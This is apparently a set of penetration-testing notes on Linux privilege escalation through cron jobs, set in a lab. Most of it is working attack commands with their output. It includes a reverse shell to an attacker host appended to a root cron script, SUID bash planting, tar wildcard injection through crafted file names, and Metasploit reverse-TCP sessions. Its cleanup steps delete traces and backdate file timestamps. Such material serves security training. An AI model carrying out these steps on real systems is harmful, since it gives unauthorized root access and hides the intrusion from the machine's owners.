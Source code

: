 # Cron Jobs

## 01 - Unix Shell

### 1.1 - File Permissions

After performing the Enumeration and Discovery phase for [[Cron Job|Cron Jobs]] and [[Files and Directories|Writable Folders]]

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo "bash -i >& /dev/tcp/<attacker_ip>/<LPORT> 0>&1" >> /usr/local/bin/overwrite.sh
```

You can find more [[OneLiners|One-liners]]regarding with this section

### 1.2 - PATH Environment Variable

Another way we can utilize this vulnerability is way using the same privilege escalation technique for [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/SUID and SGID|SUID and SGID]].

We create a new shell script to copy the `/bin/bash` binary and change file permissions with a sticky-bit SUID and SGID

```
$ cp /usr/local/bin/overwrite.sh /tmp/overwrite.sh.bak
$ cat overwrite.sh
#!/bin/bash  
  
cp /bin/bash /tmp/cronjob  
chmod +xs /tmp/cronjob
$ chmod +x overwrite.sh
$ ls -lah /tmp/cronjob
-rwsr-sr-x 1 root root 905K Jan 19 15:28 /tmp/cronjob
$ /tmp/cronjob -p
cronjob-4.1# whoami
root
cronjob-4.1# exit
exit
```

### 1.3 - Wildcards

#### 1.3.1 - Detect

One of the few mistakes due to negligence for not taking into account when backing things up with root privileges.

```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Notice the wildcard that runs with a character `*` in the home directory. If we search about the GTFOBins website to exploit the sudo privileges for the archiving program called [tar](https://gtfobins.github.io/gtfobins/tar/).

#### 1.3.2 - Exploit

Generate a payload with msfvenom and look to the [[Pentesting Phases/Initial Access/Callback Shells/MSFVenom|MSFVenom Regular Reverse Shell Payloads]] section then transfer the payload to the compromised machine and look more into [[File Transfers and Data Exfiltration]] section.

```
$ chmod +x shell.elf
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
$ ls -lh
total 0
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint=1
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint-action=exec=shell.elf
```

#### 1.3.3 - Cleanup

Launch a reverse shell handler like netcat, msfconsole or any handler of your choosing. Once you've received a connection. Cleanup the trace you've left.

```
$ rm /home/user/shell.elf
$ rm /home/user/--checkpoint=1
$ rm /home/user/--checkpoint-action\=exec\=shell.elf
```

## 02 - Metasploit

### 2.1 - File Permissions

#### 2.1.1 - Detect

```
meterpreter > run post/linux/gather/enum_system

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[+]     Module running as "TCM" user
..[snip]..
[*] Cron jobs stored in /root/.msf4/loot/20220523231150_default_10.10.225.219_linux.enum.syste_536783.txt
..[snip]..
```

Since metasploit fails that it uses `crontab -l` command to view the cron jobs

```
$ sudo cat /root/.msf4/loot/20220523231150_default_10.10.225.219_linux.enum.syste_536783.txt
***** Listing cron jobs for TCM *****

no crontab for TCM

meterpreter > ls /etc/crontab
100644/rw-r--r--  804  fil  2017-05-13 13:01:15 -0400  /etc/crontab
meterpreter > cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

meterpreter > search -f overwrite.sh -d /
Found 1 result...
=================

Path                         Size (bytes)  Modified (UTC)
----                         ------------  --------------
/usr/local/bin/overwrite.sh  40            2017-05-13 09:25:35 -0400
```

#### 2.1.2 - Exploit

```
meterpreter > ls /usr/local/bin/overwrite.sh
100746/rwxr--rw-  40  fil  2017-05-13 09:25:35 -0400  /usr/local/bin/overwrite.sh
meterpreter > cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless
meterpreter > edit /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
meterpreter > ls /usr/local/bin/overwrite.sh
100746/rwxr--rw-  83  fil  2022-05-24 15:55:50 -0400  /usr/local/bin/overwrite.sh
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2338 created.
Channel 6 created.
TCM@debian:~$ /tmp/bash -p
/tmp/bash -p
bash-4.1# id
id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

#### 2.1.3 - Cleanup

```
bash-4.1# ^Z
Background channel 14? [y/N]  y
meterpreter > pwd
/home/user
meterpreter > upload rsh_x64
[*] uploading  : /home/user/Documents/thm/rsh_x64 -> rsh_x64
[*] Uploaded -1.00 B of 250.00 B (-0.4%): /home/user/Documents/thm/rsh_x64 -> rsh_x64
[*] uploaded   : /home/user/Documents/thm/rsh_x64 -> rsh_x64
meterpreter > chmod 777 rsh_x64
meterpreter > bg
[*] Backgrounding session 2...
msf6 auxiliary(scanner/ssh/ssh_login) > handler -p linux/x64/meterpreter/reverse_tcp -H 10.8.145.108 -P 53
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 10.8.145.108:53
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -1
[*] Starting interaction with 2...

meterpreter > channel -i 16
Interacting with channel 16...

bash-4.1# ./rsh_x64

[*] Sending stage (3020772 bytes) to 10.10.166.166
./rsh_x64
[*] Meterpreter session 4 opened (10.8.145.108:53 -> 10.10.166.166:54489) at 2022-05-24 16:07:03 -0400
^Z
Background channel 16? [y/N]  y
meterpreter > sessions -1
[*] Backgrounding session 2...
[*] Starting interaction with 4...

meterpreter > getuid
Server username: root
meterpreter > edit /usr/local/bin/overwrite.sh
#!/bin/bash  
  
echo `date` > /tmp/useless
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2529 created.
Channel 4 created.
bash-4.1$ su root
su root
Password: password123

root@debian:/home/user# touch -touch -amtd "2017-05-13 09:25:35" /usr/local/bin/overwrite.sh
touch -d "2017-05-13 09:25:35" /usr/local/bin/overwrite.sh
root@debian:/home/user# ls -lh /usr/local/bin/overwrite.sh
ls -lh /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
root@debian:/home/user# exit
exit
exit
bash-4.1$ exit
exit
exit
meterpreter > ls /usr/local/bin/overwrite.sh
100746/rwxr--rw-  40  fil  2017-05-13 09:25:35 -0400  /usr/local/bin/overwrite.sh
bash-4.1# exit
exit
exit
TCM@debian:~$ exit
exit
exit
meterpreter > rm /tmp/bash
```

## References

- [Linux Privilege Escalation by Exploiting Cron Jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)

- [Crontab.guru](https://crontab.guru)